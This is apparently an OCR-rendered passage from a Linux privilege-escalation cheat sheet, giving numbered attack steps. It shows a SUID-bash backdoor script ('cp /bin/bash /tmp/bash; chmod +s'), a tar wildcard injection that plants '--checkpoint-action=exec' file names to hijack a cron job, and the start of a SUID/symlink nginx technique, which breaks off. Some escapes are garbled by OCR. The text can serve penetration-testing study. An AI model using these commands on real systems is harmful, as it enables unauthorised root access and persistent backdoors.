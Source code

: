 1.  echo \'cp /bin/bash /tmp/bash; chmod +s /tmp/bash\' \>
    > systemupdate.sh;

2.  chmod +x systemupdate.sh

3.  Wait a while

4.  /tmp/bash -p

5.  id && whoami

<a name="abusing-scheduled-tasks-via-cron-wildcards"></a>
# Abusing Scheduled Tasks via Cron Wildcards

Domain: No

Local Admin: Yes

OS: Linux

Type: Abusing Scheduled Tasks

Methods:

6.  echo \'cp /bin/bash /tmp/bash; chmod +s /tmp/bash\' \>
    > /home/user/systemupdate.sh;

7.  touch /home/user/ \--checkpoint=1;

8.  touch /home/user/ \--checkpoint-action=exec=sh\\systemupdate.sh

9.  Wait a while

10. /tmp/bash -p

11. id && whoami

<a name="abusing-file-permission-via-suid-binaries-symlink"></a>
# Abusing File Permission via SUID Binaries - Symlink) 

Domain: No

Local Admin: Yes

OS: Linux

Type: Abusing File Permission

Methods:

1\.

su - www-data;

2\.

nginxed-root.sh /var/log/nginx/error.log;

3\.
